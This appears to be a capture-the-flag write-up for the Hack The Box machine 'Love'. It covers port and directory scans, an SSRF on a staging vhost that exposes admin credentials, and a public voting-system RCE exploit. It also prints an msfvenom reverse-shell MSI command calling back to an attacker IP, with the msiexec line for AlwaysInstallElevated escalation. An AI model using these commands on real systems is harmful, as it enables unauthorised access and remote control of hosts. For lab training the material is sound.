







# Love
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.239
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-08 16:58 BST
Nmap scan report for 10.10.10.239 (10.10.10.239)
Host is up (0.19s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp  open  msrpc       Microsoft Windows RPC
139/tcp  open  netbios-ssn Microsoft Windows netbios-ssn
443/tcp  open  ssl/http    Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
445/tcp  open  �d��eU      Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   LDAPBindReq, NCP, NULL, SSLSessionReq: 
|_    Host '10.10.16.3' is not allowed to connect to this MariaDB server
5000/tcp open  http        Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94%I=7%D=8/8%Time=64D26648%P=x86_64-pc-linux-gnu%r(NUL
SF:L,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.3'\x20is\x20not\x20allowed
SF:\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSessionReq,
SF:49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.3'\x20is\x20not\x20allowed\x
SF:20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LDAPBindReq,49,"
SF:E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.3'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(NCP,49,"E\0\0\x01\xf
SF:fj\x04Host\x20'10\.10\.16\.3'\x20is\x20not\x20allowed\x20to\x20connect\
SF:x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h41m00s, deviation: 4h02m31s, median: 20m59s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-08-08T09:20:21-07:00
| smb2-time: 
|   date: 2023-08-08T16:20:22
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.44 seconds

```
- `smb`
```
└─$ smbmap -H 10.10.10.239 -R -u ''
[!] Authentication error on 10.10.10.239
```
- We saw that ports `443` and `5000` are `403 Forbidden`
  - Let's check port `80`



- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.239/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.239/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/08/08 17:32:46 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 338] [--> http://10.10.10.239/images/]
/index.php            (Status: 200) [Size: 4388]
/home.php             (Status: 302) [Size: 0] [--> index.php]
/login.php            (Status: 302) [Size: 0] [--> index.php]
/Images               (Status: 301) [Size: 338] [--> http://10.10.10.239/Images/]
/admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/admin/]
/Home.php             (Status: 302) [Size: 0] [--> index.php]
/plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/plugins/]
/includes             (Status: 301) [Size: 340] [--> http://10.10.10.239/includes/]
/Index.php            (Status: 200) [Size: 4388]
/Login.php            (Status: 302) [Size: 0] [--> index.php]
/examples             (Status: 503) [Size: 402]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/preview.php          (Status: 302) [Size: 0] [--> index.php]
/dist                 (Status: 301) [Size: 336] [--> http://10.10.10.239/dist/]
/licenses             (Status: 403) [Size: 421]
/IMAGES               (Status: 301) [Size: 338] [--> http://10.10.10.239/IMAGES/]
/%20                  (Status: 403) [Size: 302]
/INDEX.php            (Status: 200) [Size: 4388]
/Admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/Admin/]
/*checkout*.php       (Status: 403) [Size: 302]
/*checkout*           (Status: 403) [Size: 302]
/*checkout*.txt       (Status: 403) [Size: 302]
/Plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/Plugins/]
/phpmyadmin           (Status: 403) [Size: 302]
/HOME.php             (Status: 302) [Size: 0] [--> index.php]
```

- `searchsploit`
  - But we don't know the version


- Also, I didn't noticed first, but there is a vhost `staging.love.htb`
  - It's a free file scanner application



## Foothold/User
- We have a `/demo.php` where we can supply `url`



- If we try supplying our ip, we have a connection
  - Potential `SSRF`


- Same with `http://10.10.10.239`
 


- We had port `5000`, let's try supplying 
  - We have `creds` from `Password Dashboard`
  - `admin:@LoveIsInTheAir!!!!`


- We have a possible `RCE` candidate



- Let's run it
  - If we use the exploit `49445.py` from `searchsploit`, don't forget to remove `votingsystem` from `urls` in script since our target doesn't have that route



- Set your listener and execute the exploit




## Root
- `Winpeas` shows possible priv esc path with `AlwaysInstallElevated`



- Let's create malicious `msi` and run it
  - `msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=6666 -f msi -o revshell.msi`
  - Download file
  - Launch listener and run malicious file
  - `msiexec /quiet /qn /i revshell.msi`


